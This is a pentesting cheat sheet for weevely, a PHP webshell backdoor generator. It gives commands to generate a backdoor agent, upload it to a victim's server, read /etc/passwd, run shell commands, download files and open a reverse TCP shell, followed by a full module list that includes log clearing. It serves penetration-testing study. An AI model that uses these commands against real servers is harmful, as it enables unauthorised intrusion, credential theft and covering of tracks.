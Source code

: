 ```yaml
---
title: weevely - PHP webshell backdoor generator
draft: false
TableOfContents: true
tags:
  - pentestingç
  - web pentesting
  - enumeration
---
```



# weevely

Weevely is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

```bash

# Generate backdoor agent
weevely generate <password> <path/to/save/your/phpBackdoorNamefile.php>
#generate is for generating a backdoor
# password to access the file

# Then, you upload the file into the victim's server and use weevely to connect
# Run terminal to the target
 weevely <URL> <password> [cmd]


# Load session file
weevely session <path>


```

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

+ Read the [Install](https://github.com/epinna/weevely3/wiki/Install) page to install weevely and its dependencies.
+ Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.
+ Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.


## weevely commands

``` weevely
# Cray for Help
weevely> help
```

In an attack you will probably need:

```
# Read /etc/passwd with different techniques. Nice touch here is that weevely can bypass some restriction introduced in "cat /etc/passwd". For that it uses the attribute -vector
:audit_etcpasswd            
# -vector: posix_getpwuid, file, fread, file_get_contents, base64

# Collect system information
:system_info

# Audit the file system for weak permissions.
:audit_filesystem

# Execute shell commands, BUT the cool part is that it bypasses the inability to run a bash command by tunnelling into a different language command. To see available languages, use the attribute -h
:shell_sh -vector <VectorValue> <Command>
# -vector With attribute vector you can choose to execute bash through php, python...

# Download file from remote filesystem.
:file_download -vector <VECTORValue> <rpath> <lpath>
# -vector: file, fread, file_get_contents, base64
# rpath: remote path of the file you want to download
# lpath: location where you want to save it


# Upload file to remote filesystem.
:file_upload 

# Execute a reverse TCP shell.
:backdoor_reversetcp -shell <SHELLType> -npo-autonnet -vector <VALUEofVector> <LHOST> <LPORT> 
:backdoor_reversetcp -h
```


## weevely complete list of commands

| Module                      | Description  |
| --------------------------- | ------------------------------------------ |
| :audit_filesystem           | Audit the file system for weak permissions. |
| :audit_suidsgid             |  Find files with SUID or SGID flags. |
| :audit_disablefunctionbypass|  Bypass disable_function restrictions with mod_cgi and .htaccess. |
| :audit_etcpasswd            |  Read /etc/passwd with different techniques. |
| :audit_phpconf              |  Audit PHP configuration. |
| :shell_sh                   |  Execute shell commands. |
| :shell_su                   |  Execute commands with su. |
| :shell_php                  |  Execute PHP commands. |
| :system_extensions          |  Collect PHP and webserver extension list. |
| :system_info                |  Collect system information. |
| :system_procs               |  List running processes. |
| :backdoor_reversetcp        |  Execute a reverse TCP shell. |
| :backdoor_tcp               |  Spawn a shell on a TCP port. |
| :bruteforce_sql             |  Bruteforce SQL database. |
| :file_gzip                  |  Compress or expand gzip files. |
| :file_clearlog              |  Remove string from a file. |
| :file_check                 |  Get attributes and permissions of a file. |
| :file_upload                |  Upload file to remote filesystem. |
| :file_webdownload           |  Download an URL. |
| :file_tar                   |  Compress or expand tar archives. |
| :file_download              |  Download file from remote filesystem. |
| :file_bzip2                 |  Compress or expand bzip2 files. |
| :file_edit                  |  Edit remote file on a local editor. |
| :file_grep                  |  Print lines matching a pattern in multiple files. |
| :file_ls                    |  List directory content. |
| :file_cp                    |  Copy single file. |
| :file_rm                    |  Remove remote file. |
| :file_upload2web            |  Upload file automatically to a web folder and get corres |ponding URL.
| :file_zip                   |  Compress or expand zip files. |
| :file_touch                 |  Change file timestamp. |
| :file_find                  |  Find files with given names and attributes. |
| :file_mount                 |  Mount remote filesystem using HTTPfs. |
| :file_enum                  |  Check existence and permissions of a list of paths. |
| :file_read                  |  Read remote file from the remote filesystem. |
| :file_cd                    |  Change current working directory. |
| :sql_console                |  Execute SQL query or run console. |
| :sql_dump                   |  Multi dbms mysqldump replacement. |
| :net_mail                   |  Send mail. |
| :net_phpproxy               |  Install PHP proxy on the target. |
| :net_curl                   |  Perform a curl-like HTTP request. |
| :net_proxy                  |  Run local proxy to pivot HTTP/HTTPS browsing through the | target.
| :net_scan                   |  TCP Port scan. |
| :net_ifconfig               |  Get network interfaces addresses. |
